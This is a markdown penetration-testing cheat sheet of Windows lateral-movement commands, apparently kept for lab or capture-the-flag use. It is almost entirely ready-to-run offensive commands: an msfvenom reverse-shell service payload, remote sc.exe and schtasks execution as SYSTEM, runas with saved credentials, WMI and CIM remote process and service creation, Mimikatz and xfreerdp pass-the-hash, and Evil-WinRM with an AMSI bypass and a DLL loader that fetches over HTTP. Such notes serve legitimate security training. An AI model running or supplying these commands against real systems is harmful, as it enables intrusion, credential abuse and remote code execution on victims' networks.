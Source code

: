 # Connection

## Remote administration

### Scheduler

Note that executables created by msfvenom to be used by a service have to be created with type exe-service instead of exe to prevent the shell from dying after the task is completed.

```
msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=<ip> LPORT=<port> -o <filename>.exe
```

With sc.exe

```
sc.exe \\<host> create <service name> binPath="<cmd>" start=auto
sc.exe \\<host> start <service name>
```

With schtasks

```
schtasks /s <host> /RU "SYSTEM" /create /tn "<task name>" /tr "<cmd or payload>" /sc ONCE /sd 01/01/1970 /st 00:00 
schtasks /s <host> /run /TN "<task name>" 
```

### RunAs

Run with stored credentials

```
cmdkey /list                                      //get a list of credentials, runas will use the ones in memory
runas /savecred /user:<domain>\<user> "\\<ip>\<path>"      //connect to share
runas /savecred /user:<domain>\<user> "cmd.exe /k <cmd>"   //run command as user
```

Run by specifying username and password

```
runas /env /noprofile /user:<domain>/<user> <password> "cmd.exe /k <cmd>"
runas /netonly /user:<domain>\<user> "cmd.exe /k <cmd>"
```

Run as another user on the same machine

```
runas /user:<user> "cmd.exe /k <cmd>"
```

### WMI

Execute code

```
wmic.exe /user:<user> /password:<pass> /node:<host> process call create "cmd.exe /c <cmd>" 
```

Run local msi installer

```
wmic.exe /user:<user> /password:<pass> /node:<host>  product call install PackageLocation="<path to msi>"
```

### RDP

Mimikatz

```
privilege::debug
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm hash> /run:"mstsc.exe /restrictedadmin"
```

Xfreerdp

```
xfreerdp +clipboard /dynamic-resolution /cert-ignore /u:<user> /pth:<ntlm hash> /v:<host>
```

## Powershell remoting

### Manage sessions

Enable remoting (Administrative privileges required)

```
Enable-PSRemoting
```

connect to machine

```
Enter-PSSession -ComputerName <fqdn>
```

Store session data and connect

```
$<varname>= New-PSSession -ComputerName <fqdn>
Enter-PSSession -Sessions <varname>
```

### Code execution

Invoke-Command

```
//disable limit on laguage, enable scriptlets
Invoke-Command -ComputerName <fqdn> -ScriptBlock {$ExecutionContext.SessionState.LanguageMode}

Invoke-Command -ComputerName <fqdn> -ScriptBlock {<code>} 
Invoke-Command -ComputerName <fqdn> -FilePath <path>    //script from file
```

#### Code execution with valid credentials

Load credentials

```
$session = New-PSSession -ComputerName <fqdn>
$secPassword = ConvertTo-SecureString '<pass>' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('htb.local\<username>', $secPassword)
```

Execute command

```
Invoke-Command -ComputerName <fqdn> -Credential $cred -ScriptBlock {<commands>}
```

Run a PowerShell script remotely

```
Invoke-Command -Credential $cred -ComputerName <fqdn> -FilePath <path to ps1 file> -Session $session
```

## Powershell + WMI module

### Connect to WMI

Store credentials

```
$username = '<user>';
$password = '<pass>';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

Start session. WMI supports two protocols: DCOM (port 135 and 49152-65535) or Wsman (ports 5985 and 5986)

```
$Opt = New-CimSessionOption -Protocol <DCOM|Wsman>
$Session = New-Cimsession -ComputerName <host> -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

### Execute command

```
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
CommandLine = "<cmd>"
}
```

### Create service

```
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "<name>";
DisplayName = "<name>";
PathName = "<payload>";
ServiceType = [byte]::Parse("16");
StartMode = "Manual"
}
```

Retrieve and start the service

```
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE '<name>'"
Invoke-CimMethod -InputObject $Service -MethodName StartService
```

### Create scheduled task

```
$Command = "<executable i.e. cmd, powershell...>"
$Args = "<args>"

$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "<name>"
Start-ScheduledTask -CimSession $Session -TaskName "<name>"
```

### Install MSI package

```
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "<path to msi>"; Options = ""; AllUsers = $false}
```

## Evil-WinRM

Ps1 files must be stored in path specified by -s option. To execute a script simply type its name in the console.

```
evil-winrm -i <ip> -u Administrator -p <password>
evil-winrm -i <ip> -u Administrator -H <hash>
```

### In-memory execution + AMSI Bypass

Find pre-compiled binaries for in-memory execution here: [https://github.com/Flangvik/SharpCollection](https://github.com/Flangvik/SharpCollection)

```
menu
Bypass-4MSI
Invoke-Binary <path to local compiled file>
```

### Dll loader

```
Dll-loader -http -path http://<path to .dll>
Dll-loader -smb -path \\<share>\\<file>.dll
Dll-loader -local -path C:\<path to dll>
```
